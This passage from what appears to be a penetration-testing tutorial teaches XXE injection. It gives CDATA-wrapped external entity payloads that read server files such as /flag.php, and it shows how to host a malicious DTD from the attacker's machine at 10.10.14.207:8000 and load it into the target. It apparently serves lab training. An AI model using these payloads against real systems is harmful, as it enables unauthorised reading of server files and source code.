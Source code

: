 ```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

It may not work either because sometimes  **XML prevents joining internal and external entities**, so we will have to find a better way to do so.

#### Alternative 2

To bypass the previous limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD: What's unique about parameter entities is that if we reference them from an external source.

```xml
<!ENTITY joined "%begin;%file;%end;">
```

So the final attack would be:

```bash
# From our kali
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd

python3 -m http.server 8000
```

In the attacking payload that is uploaded to the target server:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///flag.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://10.10.14.207:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>

<root>
<name></name>
<tel></tel>
<email>&joined;</email><!-- reference the &joined; entity to print the file content -->
<message></message>
</root>
```

**Note:** In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop).

### 12. Error Based XXE
